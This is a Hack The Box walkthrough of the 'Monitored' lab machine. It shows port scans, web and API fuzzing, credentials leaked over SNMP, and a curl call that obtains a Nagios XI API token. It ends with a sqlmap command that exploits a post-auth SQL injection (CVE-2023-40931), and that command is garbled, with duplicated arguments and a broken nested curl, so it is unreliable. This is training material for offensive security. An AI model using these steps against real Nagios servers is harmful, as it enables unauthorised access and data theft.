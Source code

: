 ```yaml
---
title: "Monitored"
date: 2024-02-29T11:30:03+00:00
draft: false
tags: ["htb"]
description: "Monitored HacktheBox Writeup"
---
```


![](https://miro.medium.com/v2/resize:fit:4800/format:webp/1*ht14f3nLye487pVBC_xxFQ.png)

Today we'll be covering an interesting box called *Monitored* introduced with a medium level difficulty so let's check it out.

### Nmap Scans.

Starting off with some port enumeration we get some interesting ports open.

```bash
PORT     STATE  SERVICE          VERSION
22/tcp   open   ssh              OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
53/tcp   closed domain
80/tcp   open   http             Apache httpd 2.4.56
135/tcp  closed msrpc
389/tcp  open   ldap
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
464/tcp  closed kpasswd5
593/tcp  closed http-rpc-epmap
636/tcp  closed ldapssl
1433/tcp closed ms-sql-s
3268/tcp closed globalcatLDAP
3269/tcp closed globalcatLDAPssl
5667/tcp open   tcpwrapped
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
## Web Enumeration (port 80)

Intially checking port 80 it redirects to `nagios.monitored.htb` 
![](https://imgur.com/ELNHUOG.png) checking the site out. We are redirected to nagios XI.
![](https://imgur.com/rcKawD1.png) which is a server and networking monitoring software.

## Fuzzing port 80.
Trying login with the default credentials found online didn't provide us with access, hence the next step was to fuzz for some directory that might be hidden.

```bash
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 305ms]
                        [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 306ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 244ms]
.hta.php                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 257ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 243ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 231ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 238ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 247ms]
cgi-bin/.php            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 324ms]
cgi-bin/                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 324ms]
index.php               [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 208ms]
index.php               [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 254ms]
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 215ms]
nagios                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 227ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 239ms]
```
We see that the `nagios` directory seems interesting but navigating tot the directory doesn't produce anything fruitful, but looking at the link on the site we identify a certian keyword which seems like a directory `nagiosxi`.

## nagiosxi

Fuzzing the directory we get some interesting directories, 

```bash
# directory-list-2.3-small.txt [Status: 200, Size: 26737, Words: 5495, Lines: 468, Duration: 486ms]
help                    [Status: 200, Size: 26749, Words: 5495, Lines: 468, Duration: 267ms]
tools                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 298ms]
mobile                  [Status: 200, Size: 15978, Words: 2562, Lines: 225, Duration: 296ms]
admin                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 279ms]
reports                 [Status: 200, Size: 26755, Words: 5495, Lines: 468, Duration: 296ms]
account                 [Status: 200, Size: 26755, Words: 5495, Lines: 468, Duration: 294ms]
includes                [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 333ms]
backend                 [Status: 200, Size: 108, Words: 4, Lines: 5, Duration: 306ms]
db                      [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 251ms]
api                     [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 210ms]
config                  [Status: 200, Size: 26753, Words: 5495, Lines: 468, Duration: 291ms]
views                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 280ms]
sounds                  [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 259ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 275ms]
```
Checking out `terminal` directory, there's a shell in box gui which after trying out soem authentication bypasses it didn't work.
Later on went on to fuzz the `api` endpoint. 

## API 

Fuzzing the API endpoints gives us 2 endpoints the `v1` and `includes`. v1 when fuzzing api endpoints is an indicator of version controlled endpoints. checking out the v1 endpoint we get a lot of results.

**Note**: 
If we visit /api/v1/xxx we can see that all the “endpoints” were giving us same message with size of 32 so we gave -fs 32 option to filter out mostly false-positive hits.`

```bash

license                 [Status: 200, Size: 34, Words: 3, Lines: 2, Duration: 1163ms]
%20                     [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 350ms]
video games             [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 288ms]
authenticate            [Status: 200, Size: 53, Words: 7, Lines: 2, Duration: 2336ms]
```

We get an interesting endpoint called authenticate but trying to access it we find that, we can only use `POST` to authenticate and since we don't have any credentials to authenticate with decided to go back to the nmap results and enumerate more.

## UDP
```bash
PORT      STATE         SERVICE
7/udp     open|filtered echo
53/udp    open|filtered domain
68/udp    open|filtered dhcpc
123/udp   open          ntp
161/udp   open          snmp
162/udp   open|filtered snmptrap
16838/udp open|filtered unknown
18617/udp open|filtered unknown
21131/udp open|filtered unknown
21698/udp open|filtered unknown
28547/udp open|filtered unknown
49181/udp open|filtered unknown
```

Enumerating UDP ports, we find that snmp is open, enumerating snmp using [braa](https://github.com/mteg/braa) a mass snmp scanner. We get interesting results.
```bash
iso.3.6.1.2.1.25.4.2.1.5.505 = STRING: "--config /etc/laurel/config.toml"
iso.3.6.1.2.1.25.4.2.1.5.549 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.550 = STRING: "--system --address=systemd: --no fork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.553 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.556 = STRING: "-u -s -O /run/wpa_supplicant"
iso.3.6.1.2.1.25.4.2.1.5.568 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.583 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
iso.3.6.1.2.1.25.4.2.1.5.642 = STRING: "-4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0"
iso.3.6.1.2.1.25.4.2.1.5.762 = STRING: "-f /usr/local/nagios/etc/pnp/npcd.cfg"
iso.3.6.1.2.1.25.4.2.1.5.769 = STRING: "-LOw -f -p /run/snmptrapd.pid"
iso.3.6.1.2.1.25.4.2.1.5.783 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.804 = STRING: "-p /var/run/ntpd.pid -g -u 108:116"
iso.3.6.1.2.1.25.4.2.1.5.806 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.841 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
iso.3.6.1.2.1.25.4.2.1.5.843 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
iso.3.6.1.2.1.25.4.2.1.5.848 = STRING: "-h ldap:/// ldapi:/// -g openldap -u openldap -F /etc/ldap/slapd.d"
iso.3.6.1.2.1.25.4.2.1.5.860 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.870 = STRING: "-D /var/lib/postgresql/13/main -c config_file=/etc/postgresql/13/main/postgresql.conf"
iso.3.6.1.2.1.25.4.2.1.5.942 = STRING: "/usr/sbin/snmptt --daemon"
iso.3.6.1.2.1.25.4.2.1.5.943 = STRING: "/usr/sbin/snmptt --daemon"
iso.3.6.1.2.1.25.4.2.1.5.972 = STRING: "-pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6"
iso.3.6.1.2.1.25.4.2.1.5.976 = STRING: "-d /usr/local/nagios/etc/nagios.cfg"
iso.3.6.1.2.1.25.4.2.1.5.977 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.978 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.979 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
```

we identify there's a user called `svc` and also a passowrd that the user tried to authenticate with.
```bash
iso.3.6.1.2.1.25.4.2.1.5.583 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
```

## Initial Foothold.

Now having creds to login and hving prior knowledge that we have a few instances on the `API` and `terminal` endpoints that we had to try out, started out with the terminal endpoint, didn't give us any results, proceeded to the `API` endpoint where we are need to construct a post request so as to authenticate.

![](https://imgur.com/dEBYn5d.png)

An Auth Token Obtain after using curl.

```bash 
curl -X POST -k -L -d 'username=svc&password=XjH7VCehowpR1xZB' https://nagios.monitored.htb/nagiosxi/api/v1/authenticate/```

```bash 
{"username":"svc","user_id":"2","auth_token":"76064ac8a8a9ece7c349404e1f99a45665e9acfc","valid_min":5,"valid_until":"Fri, 23 Feb 2024 22:38:15 -0500"}
```
we get an auth token, going back to the `nagios` directory, we can authenticate and successfully login.

![](https://imgur.com/fHkual8.png)


According with this [CVE](https://www.cve.org/CVERecord?id=CVE-2023-40931) there is a Post-Auth SQLi, so let’s try POST /nagiosxi/admin/banner_message-ajaxhelper.php HTTP/1.1 to get the admin api_key which is in xi_users in this sqlmap command on the way to add new user with administrative privileges

```bash
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users | awk -F'"' '{print$12}'" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users

```



